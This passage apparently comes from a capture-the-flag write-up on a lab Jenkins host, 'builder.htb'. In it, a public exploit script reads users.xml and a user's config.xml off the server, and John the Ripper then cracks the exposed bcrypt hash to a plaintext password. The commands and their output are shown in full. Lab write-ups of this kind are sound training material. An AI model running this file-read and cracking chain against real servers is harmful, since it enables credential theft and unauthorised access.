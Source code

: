Within this file I found that which might be interesting:
```xml
<denyAnonymousReadAccess>false</denyAnonymousReadAccess>
```

*Note* 
> Lets say you find such vulnerability, you can read the documentation, or you can run a docker container locally on your host with that same version as follows.
```sh
docker run -p 8080:8080 --restart=on-failure jenkins/jenkins:lts-jdk17
```

After some more research i found another possible jenkins file structure:
```xml
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml 
<?xml version='1.1' encoding='UTF-8'?>
      <string>jennifer_12108429903186576833</string>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>jennifer</string>
  <version>1</version>
</hudson.model.UserIdMapper>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>
```
This xml file reveals the content of `/users/users.xml`, which indicates that there is a user
```
jennifer_12108429903186576833
```
Now I will try to dive deeper into the directory structure:
```sh
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
```

Further analysis revealed sensitive configuration files stored within the Jenkins home directory:

- `config.xml`: Contains the `<denyAnonymousReadAccess>` setting, indicating misconfigurations.
- `users.xml`: Exposed user `jennifer` and an associated bcrypt hash:

This configuration file contains a `jbcrypt` hash:
```
#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a
```
Also found a email address:
```xml
 <emailAddress>jennifer@builder.htb</emailAddress>
```

Hashcat could not identify the hash, but john managed to crack it pretty fast. 
```sh
john jennifer_hash

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 17 candidates buffered for the current salt, minimum 36 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst

princess         (jbcrypt)     

1g 0:00:00:07 DONE 2/3 (2024-10-21 14:06) 0.1426g/s 170.6p/s 170.6c/s 170.6C/s steve..bluebird
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```